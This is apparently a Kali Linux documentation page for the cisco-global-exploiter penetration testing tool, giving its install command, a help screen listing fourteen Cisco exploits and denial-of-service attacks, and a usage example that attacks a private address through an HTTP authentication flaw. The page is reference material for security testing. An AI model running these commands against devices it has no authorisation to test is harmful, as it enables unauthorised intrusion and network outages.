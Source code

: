 ```yaml
---
Title: cisco-global-exploiter
Homepage: http://www.blackangels.it
Repository: https://gitlab.com/kalilinux/packages/cisco-global-exploiter
Architectures: all
Version: 13-1kali5
Metapackages: kali-linux-everything kali-linux-large kali-tools-vulnerability 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### cisco-global-exploiter
 
  Cisco Global Exploiter (CGE), is an advanced, simple
  and fast security testing tool.
 
 **Installed size:** `37 KB`  
 **How to install:** `sudo apt install cisco-global-exploiter`  
 
 {{< spoiler "Dependencies:" >}}
 * perl
 {{< /spoiler >}}
 
 ##### cge.pl
 
 
 ```
 root@kali:~# cge.pl -h
 
 Usage :
 perl cge.pl <target> <vulnerability number>
 
 Vulnerabilities list :
 [1] - Cisco 677/678 Telnet Buffer Overflow Vulnerability
 [2] - Cisco IOS Router Denial of Service Vulnerability
 [3] - Cisco IOS HTTP Auth Vulnerability
 [4] - Cisco IOS HTTP Configuration Arbitrary Administrative Access Vulnerability
 [5] - Cisco Catalyst SSH Protocol Mismatch Denial of Service Vulnerability
 [6] - Cisco 675 Web Administration Denial of Service Vulnerability
 [7] - Cisco Catalyst 3500 XL Remote Arbitrary Command Vulnerability
 [8] - Cisco IOS Software HTTP Request Denial of Service Vulnerability
 [9] - Cisco 514 UDP Flood Denial of Service Vulnerability
 [10] - CiscoSecure ACS for Windows NT Server Denial of Service Vulnerability
 [11] - Cisco Catalyst Memory Leak Vulnerability
 [12] - Cisco CatOS CiscoView HTTP Server Buffer Overflow Vulnerability
 [13] - 0 Encoding IDS Bypass Vulnerability (UTF)
 [14] - Cisco IOS HTTP Denial of Service Vulnerability
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## cisco-global-exploiter Usage Example

Attack the target host (`192.168.99.230`) using the Cisco IOS HTTP Auth Vulnerability (`3`):

```
root@kali:~# cge.pl 192.168.99.230 3

Vulnerability successful exploited with [http://192.168.99.230/level/17/exec/....] ...
```
